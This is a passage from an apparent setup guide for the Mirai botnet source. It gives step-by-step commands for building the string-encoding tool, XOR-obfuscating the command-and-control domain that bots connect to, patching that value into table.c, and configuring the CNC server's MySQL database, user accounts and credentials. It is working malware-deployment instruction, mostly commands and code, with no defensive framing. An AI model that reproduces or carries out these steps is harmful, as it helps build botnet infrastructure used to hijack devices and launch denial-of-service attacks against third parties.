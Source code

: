 Run this inside mirai directory:

```
./build.sh debug telnet
```

You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:

```
./debug/enc string fuck.the.police.com
```

The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

To update the TABLE_CNC_DOMAIN value for example, replace  that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this:

```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

Some values are strings, some are port (uint16 in network order / big endian).

**Configuring CNC**

```
apt-get install mysql-server mysql-client
```

CNC requires database to work. When you install database, go into it and run following commands:

- [db create sql](db_create.sql) or copy from http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
```
INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
```

Now, go into file `./mirai/cnc/main.go`

Edit these values

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```
